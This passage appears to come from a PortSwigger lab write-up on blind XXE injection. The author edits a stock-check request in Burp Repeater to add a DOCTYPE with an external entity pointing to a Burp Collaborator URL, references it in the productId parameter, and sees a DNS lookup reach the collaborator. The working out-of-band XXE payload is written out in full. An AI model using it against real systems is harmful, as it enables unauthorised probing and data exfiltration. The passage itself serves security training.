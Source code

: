 Back in the repeater I'm going to edit the request just under the XML declaration. To contain an XXE injection payload that utilizes a `SYSTEM` identifier to point to the URL associated with the collaborator, `<!DOCTYPE stockcheck [ <!ENTITY xxe SYSTEM "http://v516iqdgefgn43tntcev8i22rtxklb90.oastify.com"> ]>`, Then I'll need to reference the entity within the `productId` parameter by setting its value to `&xxe;`. 

The applications responds with a `400 Bad Request`, however a DNS query from the server can be observed within the collaborator. 

![repeater](/docs/assets/images/portswigger/blindxxe/bxxe04.png)

![collaborator logs](/docs/assets/images/portswigger/blindxxe/bxxe05.png)
